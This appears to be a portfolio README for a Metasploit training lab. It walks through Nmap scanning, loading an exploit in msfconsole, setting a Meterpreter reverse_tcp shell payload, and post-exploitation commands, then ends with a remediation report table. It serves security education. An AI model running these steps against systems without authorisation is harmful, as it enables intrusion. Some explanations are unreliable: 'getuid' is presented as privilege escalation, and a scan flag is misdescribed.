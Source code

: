 # Metasploit Testing

## Objective

The Metasploit testing project aimed to provide a comprehensive understanding of penetration testing using the Metasploit Framework. This involved setting up various environments, exploiting vulnerabilities, and demonstrating the importance of ethical hacking practices. The hands-on experience was designed to equip participants with the skills necessary to identify, exploit, and mitigate security risks in real-world applications.

### Skills Learned

- Penetration Testing Methodologies: Gained in-depth knowledge of methodologies and principles of ethical hacking.
- Metasploit Proficiency: Developed proficiency in using the Metasploit Framework for vulnerability assessment and exploitation.
- Reconnaissance and Footprinting: Acquired abilities to perform reconnaissance on target systems using Nmap.
- Scripting and Automation: Enhanced skills in scripting and automation for effective security testing.
- Post-Exploitation Techniques: Understood post-exploitation techniques and methods for maintaining access.

### Tools Used

- Metasploit Framework for exploitation and payload generation.
- Nmap for network mapping and vulnerability scanning.
- Burp Suite for web application security testing.
- Various operating systems (Kali Linux, Windows) for testing environments.

## Steps

### 1. Environment Setup
- Installed Kali Linux and configured.
- Install Metasploit:
   - ```bash
      sudo apt update
      sudo apt install metasploit-framework

---

### 2. Reconnaissance
- Utilized Nmap to identify open ports and services on the target machine.
- Basic Nmap Scan Command:
  ```bash
  nmap -sS -p- <target-ip>
  ```
  - Conducts a stealth SYN scan.
  ```bash
  -sS
  ```
  - Scans all 65535 ports.
  ```bash
  -p
  ```
  
- Service Version Detection:
  ```bash
  nmap -sV <target-ip>

---

### 3. Exploitation
Executed a vulnerability exploit using Metasploit against the target machine.
- Start Metasploit Framework:
  ```bash
  msfconsole
  
- Search for available exploits:
  ```bash
  search <service-name>

- Use a specific exploit:
  ```bash
  use exploit/multi/http/<exploit-name>

- Set the target options:
  ```bash
  set RHOST <target-ip>
  set RPORT <target-port>

- Set the payload options (example for reverse shell):
  ```bash
  set PAYLOAD linux/x86/meterpreter/reverse_tcp
  set LHOST <your-ip>
  set LPORT <your-port>

- Execute the exploit:
  ```bash
  exploit


---

### 4. Post-Exploitation
Once you gain access, use Meterpreter commands. 
- To escalate privileges:
  ```bash
  getuid
  ```
- To explore the file system:
  ```bash
  ls
  cd <directory>
  ```

- To capture a screenshot:
  ```bash
  screenshot


---

### 5. Reporting
Compiled findings into a professional report detailing vulnerabilities discovered and remediation steps.

- Example report:
  ```bash
  Vulnerability Summary
  | Vulnerability         | Description                         | Remediation                       |
  |-----------------------|-------------------------------------|-----------------------------------|
  | Open Port             | Port 80 is open                     | Disable unneeded services         |
  | Vulnerable Service    | Apache version vulnerable to CVE-X  | Upgrade Apache to latest version  |


---

## Conclusion

The use of industry-standard tools such as Metasploit, Nmap, and Burp Suite not only enhanced my technical proficiency but also deepened my understanding of the attack lifecycle. This experience has prepared me to approach real-world security challenges with a systematic and informed mindset.

Moreover, the ability to document findings and communicate risks effectively is essential in the cybersecurity field. This project underscored the importance of producing clear and actionable reports that can guide organizations in improving their security posture.
